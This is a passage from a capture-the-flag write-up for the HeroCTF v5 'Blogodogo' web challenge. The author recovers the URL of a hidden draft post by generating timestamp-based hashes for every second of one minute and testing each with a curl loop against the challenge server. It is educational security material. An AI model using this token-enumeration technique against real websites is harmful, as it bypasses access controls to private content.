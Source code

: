 To generate the hash of the `Secret blog post (draft)`, we need to use the timestamp of the post's creation date, which is displayed on the admin user's profile page.

![Blogodogo admin profile draft](/images/heroctfv5/web/blog_admin_profile_draft.png)

The post was created on `2023-05-13` at `02:53`, but we don't know the exact time (missing seconds).

So, we need to test all the timestamps between `2023-05-13 02:53:00` and `2023-05-13 02:53:59` to find the correct one.

First, I converted the date to a timestamp using the website [https://www.epochconverter.com/](https://www.epochconverter.com/), which gave me `1683946380` for `2023-05-13 02:53:00`.

```
Epoch timestamp: 1683946380
Timestamp in milliseconds: 1683946380000
Date and time (GMT): Saturday 13 May 2023 02:53:00
```

Then, I wrote a Python script to test all the timestamps between `1683946380` and `1683946380 + 59`:

```python
epoch_secret_post_created = 1683946380
timestamp_list = [epoch_secret_post_created + n for n in range(60)]
```

Using these timestamps, I generated the corresponding hashes using the `generate_hash()` function from `utils.py`:

```python
[print(generate_hash(timestamp)) for timestamp in timestamp_list]
```

I copied the hashes into a file named `hashes.txt`.

```bash
$ python3 generate_hashes.py > hashes.txt
$ cat hashes.txt
8f2c71ce47d92eb5c185e22e6971343d4563f76bcb0557b94f693518a89dbd6b
326b66c2d792443c3e8b42b72d12de4c8479a7fb95397fb8b752ef5892063c39
1cfe4b77d1ca38b0a0214c7054227f09c81feafd402dacd63e19d4a11a821de2
43aa568512ee3bc7a811fb914f414d16943cabbe1965fe8ddaf6a3e97050bf33
[...] # 56 other hashes
```

Next, I used `curl` to test all the hashes:

```bash
for hash in $(cat hashes.txt); do response=$(curl -s "http://dyn-02.heroctf.fr:11192/post/preview/$hash"); [[ "$response" != *"Redirecting..."* ]] && echo "Found working hash: $hash"; done
```

This will iterate through each hash in `hashes.txt` and make a request to the preview endpoint. If the response doesn't contain the string "Redirecting...", it means we found a working hash.

Let's try to view the content of the `Secret blog post (draft)` using the hash `20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b`:
